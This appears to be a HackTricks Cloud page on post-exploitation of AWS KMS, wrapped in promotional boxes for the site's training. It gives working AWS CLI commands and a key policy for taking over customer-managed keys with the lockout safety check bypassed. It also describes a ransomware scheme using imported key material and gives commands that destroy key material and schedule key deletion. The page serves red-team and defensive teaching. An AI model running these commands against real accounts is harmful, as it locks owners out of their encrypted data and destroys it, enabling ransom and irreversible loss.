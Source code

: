 # AWS - KMS Post Exploitation

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## KMS

For more information check:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Encrypt/Decrypt information

* Using a **symmetric** key

```bash
# Encrypt data
aws kms encrypt \
    --key-id f0d3d719-b054-49ec-b515-4095b4777049 \
    --plaintext fileb:///tmp/hello.txt \
    --output text \
    --query CiphertextBlob | base64 \
    --decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
    --ciphertext-blob fileb://ExampleEncryptedFile \
    --key-id f0d3d719-b054-49ec-b515-4095b4777049 \
    --output text \
    --query Plaintext | base64 \
    --decode
```

* Using a **asymmetric** key:

```bash
# Encrypt data
aws kms encrypt \
    --key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
    --encryption-algorithm RSAES_OAEP_SHA_256 \
    --plaintext fileb:///tmp/hello.txt \
    --output text \
    --query CiphertextBlob | base64 \
    --decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
    --ciphertext-blob fileb://ExampleEncryptedFile \
    --encryption-algorithm RSAES_OAEP_SHA_256 \
    --key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
    --output text \
    --query Plaintext | base64 \
    --decode
```

### KMS Ransomware

An attacker with privileged access over KMS could modify the KMS policy of keys and **grant his account access over them**, removing the access granted to the legit account.

Then, the legit account users won't be able to access any informatcion of any service taht has been encrypted with those keys, creating an easy but effective ransomware over the account.

{% hint style="warning" %}
Note that **AWS managed keys aren't affected** by this attack, only **Customer managed keys**.

Also note the need to use the param **`--bypass-policy-lockout-safety-check`** (the lack of this option in the web console makes this attack only possible from the CLI).
{% endhint %}

```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
    --policy-name default \
    --policy file:///tmp/policy.yaml \
    --bypass-policy-lockout-safety-check

{
    "Id": "key-consolepolicy-3",
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "Enable IAM User Permissions",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::<your_own_account>:root"
            },
            "Action": "kms:*",
            "Resource": "*"
        }
    ]
}
```

{% hint style="danger" %}
Note that if you change that policy and only give access to an external account, and then from this external account you try to set a new policy to **give the access back to original account, you won't be able**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Generic KMS Ransomware

#### Global KMS Ransomware

There is another way to perform a global KMS Ransomware, which would involve the following steps:

* Create a new **key with a key material** imported by the attacker
* **Re-encrypt older data** encrypted with the previous version with the new one.
* **Delete the KMS key**
* Now only the attacker, who has the original key material could be able to decrypt the encrypted data

### Destroy keys

```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
    --key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
    --pending-window-in-days 7
```

{% hint style="danger" %}
Note that AWS now **prevents the previous actions from being performed from a cross account:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

